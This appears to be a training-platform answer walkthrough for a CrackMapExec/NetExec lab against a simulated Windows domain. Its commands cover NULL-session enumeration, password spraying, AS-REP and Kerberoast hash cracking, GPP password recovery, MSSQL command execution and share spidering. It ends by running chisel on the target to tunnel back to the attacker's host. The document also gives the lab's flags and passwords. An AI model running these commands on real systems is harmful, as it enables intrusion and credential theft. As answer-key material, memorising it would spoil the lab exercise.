## Acronyms Used in Writeups

|Acronym|Meaning|
|:-:|:-:|
|STMIP|Spawned Target Machine IP Address|
|STMPO|Spawned Target Machine Port|
|PMVPN|Personal Machine with a Connection to the Academy's VPN|
|PWNIP|Pwnbox IP Address (or PMVPN IP Address)|
|PWNPO|Pwnbox Port (or PMVPN Port)|

# Targets and Protocols

## Question 1

### "What is the name of the option to read the content of the NTDS.dit file?"

For the first question, students need to look at the SMB help options for `CrackMapExec`:

Code: shell

```shell
nxc smb --help
```



Students will see from the output that the `--ntds` option will dump the NTDS.dit database from a target domain controller.

## Question 2

### "What is the name of the option to authenticate locally to a target?"

Students need to look at the SMB help options:

```shell
nxc smb --help
```



`--local-auth`  will authenticate locally to each target.
## Question 3

### "What's the full name of the smb module that starts with zero?"

Students need to run the following command to list SMB modules:

Code: shell

```shell
mxc smb -L
```


After listing all the available modules, students will see `ZeroLogon` at the bottom of the output.

# Basic SMB Reconnaissance

## Question 1

### "What's the name of the target machine?"

Students need to run crackmapexec, specifying SMB protocol along with the target IP:


```shell
crackmapexec smb STMIP
```


The name is shown to be `DC01`.

## Question 2

### "What's the domain name of the target machine?"

Students need to run `CrackMapExec`, specifying SMB protocol along with the target IP:

```shell
crackmapexec smb STMIP
```



The domain is shown to be `inlanefreight.htb`.

## Question 3

### "Is SMB signing False or True?"

Students need to run `CrackMapExec`, specifying the SMB protocol along with the target IP:

```shell
crackmapexec smb STMIP
```


It is shown that signing is set to `True`.

## Question 4

### "What's the OS version?"

Students need to run `CrackMapExec`, specifying SMB protocol along with the target IP:

```shell-session
crackmapexec smb STMIP
```


The OS version is shown to be `Windows 10 / Server 2019 Build 17763 x64`.

# Exploiting NULL/Anonymous Sessions

## Question 1

### "What's the account name that start with car?"

Students need to take advantage of a NULL smb session to dump user accounts:

Code: shell

```shell
crackmapexec smb STMIP -u '' -p '' --users
```



The account name that starts with 'car' is shown to be `carlos`.

## Question 2

### "What's the account name with the description "Service Account for testing"?"

Students need to use a NULL session to dump user accounts:

Code: shell

```shell
crackmapexec smb STMIP -u '' -p '' --users
```



Students will find the account named `engels` matches the description.

## Question 3

### "Including days, hours and minutes, what is the maximum password age?"

Students need to use a NULL session along with the option to enumerate password policy:

```shell
crackmapexec smb STMIP -u '' -p '' --pass-pol
```



The maximum password age is shown to be `41 days 23 hours 53 minutes`.

## Question 4

### "Which shared folder do we have READ and WRITE privileges?"

Students need to attack SMB, authenticating as `guest` with an empty password along with the option to list shares:

Code: shell

```shell
crackmapexec smb 10.129.204.177 -u guest -p '' --shares
```



The share with available read/write permissions is shown to be `linux01`.

# Password Spraying

## Question 1

### "What's the password for the user nicole?"

Students must first create a list of users by utilizing NULL authentication, exporting to a `userlist.txt` file:

```bash
enum4linux -U 10.129.204.177 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" > userlist.txt
```



Next, a list of passwords must be created:

```shell
echo 'Inlanefreight01!' > passwords.txt && echo 'Inlanefreight02!' >> passwords.txt && echo 'Inlanefreight03!' >> passwords.txt
```

Students need to perform a password spray with the `--continue-on-success` option:

```shell
nxc smb STMIP -u userlist.txt -p passwords.txt --continue-on-success
```



The password for `nicole` is shown to be `Inlanefreight02!`.

## Question 2

### "Which other account has the STATUS_PASSWORD_MUST_CHANGE flag?"

Students need use the wordlists from the previous section, running the same command:


```shell
crackmapexec smb 10.129.204.177 -u userslist.txt -p passwords.txt --continue-on-success
```


The user with the STATUS_PASSWORD_MUST_CHANGE flag is shown to be `belkis`.

## Question 3

### "Which user other than peter can also connect via WinRM?"

Students need to make a list of all users whose passwords have been identified:

```shell-session
carlos:Inlanefreight02!
grace:Inlanefreight01!
nicole:Inlanefreight02!
```

And place them into two separate wordlists. One containing the found users, and the other containing the corresponding password:



Then, students need to use `CrackMapExec`, specifying `--no-bruteforce` and also to `--continue-on-success`:

```shell
crackmapexec winrm STMIP -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success
```



It is revealed that `nicole` has access to `winrm`.

## Question 4

### "Is there any other local MSSQL account created with the same username and password as the corresponding Active Directory account?"

Students need to use the lists containing found usernames and found passwords, targeting `mssql` with `CrackMapExec`:

Code: shell

```shell
crackmapexec mssql STMIP -u usersfound.txt -p passfound.txt --no-bruteforce --continue-on-success
```



It is revealed that the `mssql` password for `nicole` is the same as her password for SMB, which uses domain credentials for authentication.

# Finding ASREPRoastable Accounts

## Question 1

### "Which other account is vulnerable to ASREPRoast?"

Students first need to add two entries into their hosts file for the spawned target:

```shell
sudo sh -c 'echo "STMIP inlanefreight.htb dc01.inlanefreight.htb" >> /etc/hosts'
```

To discover ASREPRoastable accounts, students need to target LDAP with an empty password, using the previously created userslist.txt file:


```shell
crackmapexec ldap dc01.inlanefreight.htb -u userslist.txt -p '' --asreproast asreproast.out
```

Finding ASREPRoastable Accounts



The other roastable user is shown to be `linda`.

## Question 2

### "What's the password of the account you found?"

Students need to use `Hashcat` to crack the password:

```shell
hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt --force
```

Finding ASREPRoastable Accounts



The password is revealed to be `Password123`.

# Searching for Accounts in Group Policy Objects

## Question 1

### "What's the name of the other account present in the GPO?"

Students need to target SMB, authenticating as `grace:Inlanefreight01!` and utilizing the `gpp_password` module:

Code: shell

```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! -M gpp_password
```



The module reveals the other account is `diana`.

## Question 2

### "What's the password of that account?"

Students need to target SMB, authenticating as `grace:Inlanefreight01!` and utilizing the `gpp_password` module:

Code: shell

```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! -M gpp_password
```



The password is shown to be `HackingGPPlike4Pro`.

## Question 3

### "Does the account have access to connect to WinRM? (True or False)"

Students need to use the previously discovered credentials for `diana` to test if the account has `WinRM` access:

```shell
crackmapexec winrm STMIP -u diana -p HackingGPPlike4Pro
```



The output shows `Pwn3d!`, indicating that the password is valid, and `diana` does indeed have access to `WinRM`.

# Working with Modules

## Question 1

### "What is the secret word displayed in the default search of user descriptions?"

Students need target `ldap`, authenticating as `grace:Inlanefreight01!` while using the `user-desc` module:

```shell
crackmapexec ldap STMIP -u grace -p Inlanefreight01! -M user-desc
```



The secret word is shown to be `WeLoveHacking`.

## Question 2

### "Use the module user-desc with the keyword IP. What's the IP address you found?"

Students need target `ldap`, authenticating as `grace:Inlanefreight01!` while using the `user-desc` module. Getting a bit more granular, students need to set the `KEYWORD` option to IP:

Code: shell

```shell
crackmapexec ldap STMIP -u grace -p Inlanefreight01! -M user-desc -o KEYWORDS=IP
```



The IP address that is parsed from the user description is shown to be `172.16.10.9`.

# MSSQL Enumeration and Attacks

## Question 1

### "Test the accounts that we previously identified their credentials. Which other account has permission to do privilege escalation?"

Students need to continue to use the list of discovered users and passwords, testing one by one with the `mssql_priv` module until the right user can be identified:

```shell
crackmapexec mssql STMIP -u engels -p Inlanefreight1998! -M mssql_priv
```



Eventually, after testing multiple accounts, students will see the `engels` user can impersonate `julio` and escalate privileges.

## Question 2

### "What's the flag located in the database core_app? (Omit b'' in the response)"

Using any account with authentication enabled to the database, students need to dump all tables from the `core_app` database:

```shell
crackmapexec mssql STMIP -u nicole -p Inlanefreight02! --local-auth -q "SELECT table_name from core_app.INFORMATION_SCHEMA.TABLES"
```



Then, students need to dump the content of the `tbl_flag` table:

```shell
crackmapexec mssql STMIP -u nicole -p Inlanefreight02! --local-auth -q "SELECT * from core_app.dbo.tbl_flag"
```



Once the table has been dumped, the flag is shown to be `Looking@Dat4`.

## Question 3

### "What's the content of the file located at "C:\SQL2019\sql_flag.txt"?"

Students need to use `CrackMapExec`'s code execution capabilities to read the flag:

```shell
crackmapexec mssql STMIP -u nicole -p Inlanefreight02! --local-auth -x "more C:\SQL2019\sql_flag.txt"
```



The flag reads `F1l3$_UsinG_MS$QL`.
# Finding Kerberoastable Accounts

## Question 1

### "Which account, excluding grace, peter, and service accounts, is vulnerable to Kerberoasting?"

Students need to make sure they have the appropriate entries added to their hosts file for inlanefreight.htb and dc01.inlanefreight.htb.

Next, students need to perform a Kerberoasting attack:


```shell
crackmapexec ldap dc01.inlanefreight.htb -u grace -p 'Inlanefreight01!' --kerberoasting kerberoasting.out
```



The other vulnerable account is shown to be `elieser`.

## Question 2

### "What's the password for that account?"

Students need to run `Hashcat` against the output from the Kerberoasting attack:

```shell
hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt
```



After cracking the hash, students will find the cleartext password for the user is `Passw0rd`.

## Question 3

### "Which shared folder does this account have READ and WRITE access to?"

Students need to target smb, authenticating as `elieser:Passw0rd` while also enumerating available shares:

```shell
crackmapexec smb dc01.inlanefreight.htb -u elieser -p Passw0rd --shares
```



The share with read and write access to shown to be `linux01`.

# Spidering and Finding Juicy Information from an SMB Share

## Question 1

### "Which other file, not shown in the example, it's available in the IT share?"

Students need to target smb, authenticating as `grace:Inlanefreight01!`, spidering the IT share and utilizing CME's pattern option to look for files with a .txt extension:


```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! --spider IT --pattern txt
```



The other text file on the share is shown to be `PCNames.txt`.

## Question 2

### "Use grace credentials to spider in the shared folder Users with the pattern txt. What's the name of the file you found?"

Students need to authenticate as `grace:Inlanefreight01!`, spidering the Users share while utilizing the pattern option to look for files with a .txt extension:

```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! --spider Users --pattern txt
```


The spidering of the Users share reveals the `creds.txt` file.

## Question 3

### "Use the spider_plus module to search all shares. In which shared folder did you find the file powershelltest.ps1?"

Students need to target smb, authenticating as `grace:Inlanefreight01!`, utilizing the spider_plus module and setting the options to exclude certain shares:

```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL
```



Next, students need to look at the output that was saved to `~/.nxc/modules/nxc_spider_plus`:

```shell
cat ~/.nxc/modules/nxc_spider_plus
```



The output reveals a `PowerShell` script in the `Users` share.

## Question 4

### "What is the password you found in the powershelltest.ps1 file?"

Students need to target smb, authenticating as `grace:Inlanefreight01!` while using the option to get a file from an smb share. Specifically the `powershelltest.ps1` file previously discovered:

Code: shell

```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! --share Users --get-file test/powershelltest.ps1 powershelltest.ps1
```



Using the `cat` command, students need to read the contents of the script:

```shell
cat powershelltest.ps1
```



There, they will find `Password1` in plain text.
# Proxychains with CME

## Question 1

### "Read the flag in the shared folder named flag, on server DC01 (172.16.1.10)"

Students need to first download `chisel` to the `Pwnbox` and run it as a server:



Next, students need to download `chisel` for Windows and transfer it to the target machine.

Students need to be conscious that they are within the Poetry Shell when using `CrackMapExec`, which can be used to transfer the chisel executable:

```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! --put-file ./chisel.exe '\\Windows\Temp\chisel.exe'
```



Now, students need to run `chisel` on the target machine, configuring the socks proxy:

```shell
crackmapexec smb STMIP -u grace -p Inlanefreight01! -x "C:\Windows\Temp\chisel.exe client 10.10.14.171:8080 R:socks"
```


If students check their `chisel` server, they should see an incoming connection:



`Proxychains4` must be configured to use port 1080 as a socks5 proxy:



Subsequently, students need to use `proxychains4` with `CrackMapExec` to enumerate the shared folders and find the flag:

```shell
proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M spider_plus -o EXCLUDE_DIR=ADMIN$,IPC$,print$,NETLOGON,SYSVOL
```

